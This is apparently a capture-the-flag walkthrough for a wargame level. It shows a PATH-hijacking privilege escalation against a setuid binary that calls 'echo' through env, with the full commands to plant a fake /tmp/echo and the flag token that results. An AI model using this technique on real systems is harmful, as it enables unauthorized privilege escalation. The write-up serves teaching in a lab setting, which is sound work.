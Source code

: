 # Level 03 - Path Manipulation Exploit

## Step 1: Examine available files

First, let's check what files we have in the current directory:

```sh
ls -l
```

We find a file named `level03` with the following permissions:

```
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

Owner of that file is flag03 user.

If we execute it, we will see message
```
Exploit me
```

Let's open this binary with `strings` and find with `grep Exploit`

```
strings level03 | grep Exploit
```

Result is

```
/usr/bin/env echo Exploit me
```

We see that this command uses echo from env to print message, this means that we can change PATH in env and rewrite echo command to run `getflag` in user flag03.

To do it, we add /tmp folder to the begining of PATH, and add to /tmp folder (only one folder in which we can edit) executable file called `echo` and make it execute /bin/getflag when call.

```
echo '/bin/getflag' > /tmp/echo
chmod 777 /tmp/echo
export PATH=/tmp:$PATH
./level03
```

And we get our flag:

```
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
